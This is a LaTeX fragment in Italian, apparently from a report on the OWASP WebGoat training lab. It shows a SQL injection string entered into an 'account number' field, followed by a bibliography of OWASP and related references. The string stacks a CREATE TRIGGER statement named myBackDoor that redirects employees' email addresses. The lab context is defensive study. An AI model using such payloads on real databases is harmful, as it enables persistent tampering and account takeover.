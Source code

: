 \documentclass[a4paper,openright,italian]{article}
\begin{document}
Riprendiamo l'esempio del paragrafo precedente e attacchiamo nuovamente il campo ``account number'' inserendo la stringa contenuta nel listing \ref{code:query_5}.
\begin{lstlisting}[caption={Query di interrogazione}, label={code:query_5},frame=trBL]
101; CREATE TRIGGER myBackDoor BEFORE INSERT ON employee 
                          FOR EACH ROW BEGIN UPDATE employee 
                          SET email='john@hackme.com' 
                          WHERE userid = NEW.userid
\end{lstlisting}
\clearpage
\begin{thebibliography}{3}
 OWASP, \emph{OWASP - Main page} \newline http://www.owasp.org/index.php/Main\_Page
 OWASP, \emph{WebGoat Project} \newline http://www.owasp.org/index.php/Category:OWASP\_WebGoat\_Project
 OWASP, \emph{HTTPOnly} \newline http://www.owasp.org/index.php/HTTPOnly
 Debian, \emph{Etch and a Half} \newline http://wiki.debian.org/EtchAndAHalf
 Apache, \emph{Tomcat} \newline http://tomcat.apache.org/
 Wikipedia, \emph{IceWeasel} \newline http://en.wikipedia.org/wiki/IceWeasel
 Sun Developer Network, \emph{Java SE Downloads} \newline http://java.sun.com/javase/downloads/index.jsp

 Wikipedia, \emph{Cross-site Request Forgery} \newline http://en.wikipedia.org/wiki/Cross-site\_request\_forgery
 Wikipedia, \emph{Cross-site Tracing} \newline http://en.wikipedia.org/wiki/Cross\_Site\_Tracing
\end{thebibliography}
\end{document}
